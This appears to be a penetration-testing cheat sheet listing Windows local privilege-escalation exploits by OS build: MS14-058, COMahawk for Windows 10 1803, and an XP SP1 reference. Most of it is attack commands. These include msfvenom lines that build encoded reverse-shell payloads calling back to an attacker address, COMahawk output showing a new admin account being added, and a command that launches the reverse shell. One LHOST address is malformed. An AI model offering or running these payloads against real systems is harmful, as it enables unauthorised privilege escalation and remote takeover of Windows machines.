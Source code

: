 # Build Exploits

### Win 8.1 PRO Build 9600 - x64

ms14-058 - # Windows 8.0 - 8.1 x64 TrackPopupMenu Privilege Escalation (MS14-058)

https://gist.github.com/AfroThundr3007730/088b2e2ec4ff1eba295e073d1428d85d

SHELLCODE ->

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.1.1 LPORT=80 -f c
```

### Microsoft Windows 10 Build 1803 < 1903 - 'COMahawk' Local Privilege Escalation&#x20;

```
$ locate windows/local/47684.md
/usr/share/exploitdb/exploits/windows/local/47684.md
```

```
# System version number

winver - 1803 OS Build 17134.112

REG QUERY "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion" /v ReleaseId

HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion
    ReleaseId    REG_SZ    1803

$ searchsploit 1803

# Microsoft Windows 10 Build 1803 < 1903 - 'COMahawk' Local Privilege Escalation 
| windows/local/47684.md

$ locate windows/local/47684.md
/usr/share/exploitdb/exploits/windows/local/47684.md

C:\Users\test\Desktop>COMahawk.exe
[\] Progress:  1/9 2/9 3/9 4/9 5/9 6/9 7/9 8/9 9/9
[+] Hopefully Tomahawk:RibSt3ak69 is added as an admin.

$ msfvenom -p windows/shell_reverse_tcp LHOST=4192.168.1.1 LPORT=80 -f exe -e x86/shikata_ga_nai -i 8 -o rev.exe

COMahawk.exe "\Users\test\Desktop\rev.exe &"
```

### Win XP SP0/SP1

https://sohvaxus.github.io/content/winxp-sp1-privesc.html

accesscheck.exe - Old Version - https://xor.cat/assets/other/Accesschk.zip
